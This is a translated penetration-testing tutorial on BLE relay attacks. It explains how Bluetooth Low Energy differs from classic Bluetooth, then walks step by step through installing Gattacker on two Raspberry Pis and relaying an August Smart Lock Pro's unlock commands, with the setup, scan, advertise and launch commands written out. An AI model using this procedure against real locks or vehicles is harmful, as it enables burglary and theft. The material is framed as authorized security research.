






# 入侵蓝牙低能耗(BLE)智能设备

> 原文：<https://medium.datadriveninvestor.com/hacking-bluetooth-low-energy-ble-smart-devices-bd58bf56268b?source=collection_archive---------1----------------------->


# 介绍

这篇文章是为渗透测试人员写的，他们想学习如何使用中继攻击来攻击蓝牙低能耗(BLE)智能设备。这些攻击可以用来攻击智能锁，甚至可以攻击联网汽车中 BLE 驱动的点火系统。这篇文章深入探讨了如何构建和配置两个运行 Gattacker 的 Raspberry Pis，并详细解释了什么是中继攻击，它们如何以及为什么对 BLE 有效，以及 BLE 与蓝牙有何不同。

[](https://www.datadriveninvestor.com/2020/02/10/why-encryption-is-critical-to-everyday-life/) [## 为什么加密对日常生活至关重要？数据驱动的投资者

### 你几乎每天都要输入密码，这是你生活中最基本的加密方式。然而问题是…

www.datadriveninvestor.com](https://www.datadriveninvestor.com/2020/02/10/why-encryption-is-critical-to-everyday-life/) 

# 蓝牙 4.0 的兴起

让我们把一些事情充分弄清楚，有蓝牙和蓝牙低能耗(BLE)。蓝牙是为短距离无线通信(10-100 米)而设计的，例如将手机连接到无线耳机。蓝牙在 2.402–2.481 GHz 的 2.4 GHz 频段上工作，分为 79 个不同的 1 MHz 信道。虽然 1 MHz 的带宽很慢，但蓝牙不仅仅用于音频，文件也可以通过蓝牙在设备之间传输，尽管带宽比传统的 WiFi 慢。

BLE 带来了蓝牙 4.0 版本，现在用于 5.0 版本。与蓝牙不同，BLE 设备在连接启动前一直处于睡眠模式，与传统蓝牙设备相比，可减少电池使用量。像蓝牙一样，BLE 在 2402–2.481 GHz 的相同频率范围内以 2.4 GHz 运行。与您相关的主要区别是蓝牙应用吞吐量远远高于 BLE。蓝牙的吞吐量在 0.7-2.1 兆比特/秒之间，而 BLE 的吞吐量较慢，为 305 千比特/秒。虽然 BLE 的吞吐量远小于蓝牙，但 BLE 的应用并不需要很大的吞吐量。BLE 通常用于联网医疗设备、智能锁、联网汽车、工业控制系统，以及物联网生态系统中几乎所有的智能技术，所有这些都不需要更高的吞吐量。

# 攻击实验室

要使用 Gattacker 执行中继攻击，您需要为您的攻击实验室准备一些东西。

1.  [Kinivo BTD-400 USB PC 蓝牙适配器(蓝牙 4.0，低能耗，兼容 Windows、Raspberry Pi、Linux)](https://www.amazon.com/gp/product/B007Q45EF4/ref=ppx_yo_dt_b_asin_title_o01_s00?ie=UTF8&psc=1) (数量:2)
2.  [CanaKit Raspberry Pi 3 B+ (B Plus)入门套件(32 GB EVO+版，高级黑色外壳)](https://www.amazon.com/gp/product/B07BCC8PK7/ref=asin_title?ie=UTF8&psc=1)(数量:2)
3.  [八月之家 AUG-SL-CON-G03 深灰色八月智能锁 Pro，第三代](https://www.amazon.com/gp/product/B0765LFNM7/ref=asin_title?ie=UTF8&psc=1)
4.  https://github.com/securing/gattacker
5.  NodeJS(仅限版本 8)
6.  自定义 Gattacker 脚本:【https://www.alissaknight.com/file-share】T4:安装完 Gattacker 后，将这些文件解压到 Gattacker 目录的主根文件夹中(通常是~home/nodejs/modules/gattacker)

为什么是覆盆子 Pis？因为通常当你使用中继攻击时(当然是在授权渗透测试中)，你不想移动。树莓派是一个完美的移动中继攻击套件，因为它们可以由电池组供电。

# 了解中继攻击

中继攻击是一种中间人(MITM)攻击，将发射机发送给接收机的信号记录下来，以便以后重新发送。信号和数据不会被以任何方式处理或读取，它只是被存储起来以备后用。在 MITM 中，甚至在重放攻击中，信号经常被捕获并以某种方式被修改，或者被读取并转发给接收者。

# 了解 Gattacker

Gattacker 很简单。Gattacker 安装在两个独立的系统上——在我们的例子中，是两个 Raspberry Pis。*中央* pi(运行 ws-slave.js)位于 BLE 设备旁边，等待广告广播，然后将它们记录到广告文件中。*中央* pi 扫描目标 BLE 设备的服务，以供*外围* pi 进行仿真，外围 pi 位于受害者手机旁边。*外围* pi(运行 advertise.js)使用从*中央* pi 提供的信息模拟 BLE 锁，使受害者的手机连接到它，认为它是锁。

如果锁的移动应用程序被配置为当受害者的手机在它附近时自动解锁(被动进入)，只要这两个 Raspberry pi 可以相互通信，锁就可以简单地通过这两个 Raspberry pi 操作这个中继攻击来自动解锁。否则，受害者将不得不在他们的移动应用上手动按下解锁，以便解锁命令被中继到*中央* pi，从而解锁车门(图 1)。



# 目标

在本练习中，我们将使用 August Smart Lock Pro。这把锁是我在 BLE 对 KnighTV 进行黑客研究时锁定的六把不同的 BLE 锁之一。要观看实弹演习，请在我的 [YouTube 频道观看 KnighTV 上的 BLE 黑客系列。](http://https//www.youtube.com/c/alissaknight?sub_confirm=1)

8 月智能锁 Pro 被证实易受中继攻击，如我在 KnighTV 第 11 集录制的视频所示:

*注:*在撰写本文时，奥古斯特发布了一种新的锁，它使用家庭的 WiFi 连接。我还没有确认，如果这个锁使用 BLE，容易受到同样的中继攻击。我已经购买了这把锁，一旦完成，我将公布我的研究。

# 在中央和周围的 Rasberry Pis 上

# 安装 NodeJS(版本 8)

*安装到/usr/local/lib/nodejs 中

```
$ wget [https://nodejs.org/dist/latest-v8.x/node-v8.17.0-linux-armv71.tar.xz](https://nodejs.org/dist/latest-v8.x/node-v8.17.0-linux-armv71.tar.xz)
$ tar xvf node-v8.17.0-linux-armv71.tar.xz
$ mv node-v8.17.0-linux-armv71 /usr/local/lib/nodejs
$ su pi
$ vi ~/.profile
```

将 nodejs 添加到文件底部的路径中

```
#NodejsexportPATH=/usr/local/lib/nodejs.v8/bin:$PATH$ . ~/.profile
$ which node (to confirm only one version of node is installed)
$ node -v$ npm version$ npx -
```

# 安装 Gattacker

```
$ sudo apt install bluetooth bluez libbluetooth-dev libudev-dev
$ npm install noble
$ npm install bleno
$ npm install gattacker
```

# 安装我的自定义 Gattacker 脚本

我使用的自定义脚本可以从我在 http://www.alissaknight.com 的主页上下载。下载并覆盖/home/pi/node _ modules/Gattacker 中的 Gattacker 安装目录

下一节假设您已经在两个 Raspberry Pis 上安装了 Raspbian。如果你购买了我上面链接的 Cannakit 版本，那么只需继续安装下面的 Gattacker。这很重要，为了让事情保持正常，并且你随时都知道你在哪个树莓 Pi 上，把主机名改成中央*或外围*或*。我相应地分解了这些安装步骤。*

# 中央拉斯贝里码头

识别外部蓝牙适配器的设备 ID

```
$ sudo hciconfig (in my case, it is hci0)
```

确保 NOBLE_HCI_DEVICE_ID= <the device="" id="" from="" hciconfig="" output="">和 BLENO_HCI_DEVICE_ID=0。在我的例子中，它是 0，并确保它们没有被注释。确保 WS_SLAVE=127.0.0.1。</the>

```
$ vi ~/node_modules/gattacker/config.env
```



找出中央 Pi 的 IP 地址，以便将它的 IP 地址添加到*外设* Pi 上的 config.env 文件中

```
$ sudo ifconfig -a
```

# 外围树莓派

识别外部蓝牙适配器的设备 ID

```
$ sudo hciconfig (in my case, it is hci0)
```

编辑 config.env 并设置 WS_SLAVE IP 地址。指向中央 Pi IP 地址。

```
$ vi ~/node_modules/gattacker/config.env
```

# 发起攻击

首先，在*中央* pi 上启动 ws-slave 守护进程，这将导致*中央* pi 等待来自*外围* pi 的传入连接。

# 中心的

```
$ sudo /usr/local/lib/nodejs.v8/bin/node ws-slave
```

# 外围的

注意:在做任何事情之前，确保进入~/node _ modules/gattacker/helpers/bdaddr 目录并编译 BD addr。后面的步骤将需要它。

使用*节点扫描:*找到你的目标 BLE 锁

```
$ node scan
```

一旦您通过节点扫描确定了 BLE 设备的 ID，*外设* pi 将向移动电话发布文件。

*注意:* < id >指的是广告文件文件名前面的 id，例如 789c85086975_L309E01.adv.json，所以在我的例子中，生成广告文件的命令应该是:$ node scan -o 789c85086975。这将导致*中央* pi 连接到设备，扫描它，然后将值写入 JSON 格式的广告文件，该文件将由*外围*广播到受害者的手机。

```
$ node scan -o <id>
```



公布从设备中提取的信息:

```
$ ./mac_adv -a devices/<filename>.adv.json
```

我的情况是 789c85086975_L309E01.adv.json:



如果您看到上面的消息，请按 ENTER，您应该会看到一个初始化的消息横幅，指示 Gattacker 准备发起中继攻击:



你完了！来吧，拿起你的手机，运行 BLE 锁应用程序。确保你尽可能远离锁本身，并将*外设* pi 放在你旁边。例如，我把我的中央 pi 放在我家庭办公室的锁旁边，而我在房子的另一个地方，带着*外设* pi 和我的手机。*外围设备* pi 当然应该连接到中央 pi，这样才能工作。如果一切顺利，您应该会看到 Gattacker 的以下输出，当您在移动应用程序中点击 unlock 时，锁应该会解锁:



**喜欢和分享。**您支持我在网络安全领域继续进行内容开发和影响者工作的最佳方式是喜欢并分享我的文章。


**订阅并关注。** [订阅我的 YouTube 频道](http://youtube.com/c/alissaknight?sub_confirmation=1)以获得我每周上传的 VLOG、直播流和 Vodcast/Podcast 剧集的通知，并在 [Twitter](http://www.twitter.com/@alissaknight) 上关注我。要查看我最新的内容日历，请访问我们公司的网站。